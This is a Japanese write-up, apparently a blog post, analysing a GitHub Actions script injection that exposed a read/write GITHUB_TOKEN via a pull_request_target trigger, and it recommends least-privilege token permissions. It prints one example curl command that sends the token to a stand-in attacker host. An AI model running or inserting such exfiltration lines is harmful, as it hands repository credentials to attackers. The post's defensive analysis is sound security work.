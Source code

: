 そんなコードを AI が出したという点は残念ではあるが、人間が実装しても GitHub Actions に慣れていなければ、起こり得る脆弱性だ。

また、この Script Injection があることは、その日のうちに指摘されていた。しかし、Actions の中だけの問題であり、影響は限定的と考えられたようだ。実際、この Injection そのものが、多くのユーザを攻撃したわけでもない。

既知である以上、誰も対策をしていないわけではなく、こうした攻撃を防ぐ方法や知見は、探せば多く出てくる。ここではむしろ、「AI によるレビュー」も一緒に行っておけば防げた可能性が高い。そのあたりの点は後述する。


## GITHUB_TOKEN の窃取

### 背景

問題は、この Injection で攻撃者は何をしたか、である。

この YAML の実行範囲を見てみると、`pull_request_target` をトリガーにしている。

```yaml
on:
  pull_request:
    types: [opened, edited, synchronize, reopened]
  pull_request_target:
    types: [opened, edited, synchronize, reopened]
```

ここで何ができるかを確認しよう。

> For workflows that are triggered by the pull_request_target event,
> the GITHUB_TOKEN is granted read/write repository permission
> unless the permissions key is specified and the workflow
> can access secrets, even when it is triggered from a fork.
>
> --- https://docs.github.com/ja/actions/reference/workflows-and-actions/events-that-trigger-workflows#pull_request_target

つまりこの Action は、`permissions` を指定しないと、read/write を持った `GITHUB_TOKEN` 付きで実行されるのだ。この挙動は今は変わっており、デフォルトで read のみの `GITHUB_TOKEN` が払い出されるようになっているはずだが、その前から使っている場合、明示的な設定をしないと read/write のままのようだ。

攻撃者が狙ったのは、このトークンだったのだ。これを盗むために、先ほどの Injection を利用する。

```sh
curl -X POST https://attacker.example.com -d "token=${GITHUB_TOKEN}"
```

このようなワンライナーが、そのまま PR のタイトルだったのかもしれない。

いずれにせよ、攻撃者がこれを取得したことで、GitHub に対して read/write の強い権限を得た。gh コマンドなどに設定すれば、リポジトリに様々な細工ができる。つまり、権限昇格の状態になることを意味するのだ。


### 対策

もし Injection の脆弱性があったとしても、盗める権限が大したことがなければ、後続の攻撃につなげることもできない。

「権限を最小にする」という、有史以来ずっと言われているプラクティスがまさしくそこに当てはまる。`GITHUB_TOKEN` の権限はダッシュボードから確認/変更できるので、本来慎重に管理すべきだ。

しかし、自動で発行される場合は PAT (Personal Access Token) のように明示的に権限を付けたトークンを自分で払い出すのと異なり、GitHub Actions のすべての挙動を把握するのも難しいため、見落としがちなところだとは思う。
